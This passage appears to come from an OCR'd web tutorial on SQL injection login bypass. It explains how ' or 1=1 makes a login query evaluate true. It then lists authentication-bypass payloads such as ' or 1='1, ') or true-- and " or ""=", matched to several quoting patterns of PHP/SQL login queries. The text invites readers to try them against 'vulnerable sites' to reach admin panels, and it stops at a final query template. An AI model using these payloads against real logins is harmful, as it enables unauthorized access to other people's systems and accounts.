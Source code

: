Note that -- is the comment operator and anything after it will be ignored as a comment. There exists another comment operator which is /*.

So our above query becomes:

```
<?php 
SELECT USER from database WHERE username='a' or 1=1  
```

 Now this query evaluates true even if there is no user called 'a' because 1=1 is always true and using OR makes the query return true when one of the query is true. And this gives access to the site admin panel.

 There can be various other username and password combinations to play with the vulnerable sites. You can create your own new combinations for the site login.

 Few such combinations are:
```
username:' or 1='1        password:' or 1='1
username:' or '1'='1'    password:' or '1'='1'
username:or 1=1        password:or 1=1
```
This was the basic okay let us assume now different queries and different injection for them.
```
<?php 
select username,pass from users where username=('$username') and password=('$passwrd') limit 0,1;  
```
such combinations are:
```
') or true--
') or ('')=('
') or 1--
') or ('x')=('
```
```
<?php 
select username,pass from users where username="$username" and password="$passwrd" limit 0,1;  
```
such combinations are:

```
" or true--
" or ""="
" or 1--
" or "x"="
```
```
<?php 
select username,pass from users where username=("$username") and password=("$passwrd") limit 0,1;  
```
such combinations are:
```
") or true--
") or ("")=("
") or 1--
") or ("x")=("
```
```
<?php 
select username,pass from users where username=(('$username')) and password=(('$passwrd')) limit 0,1;  
```
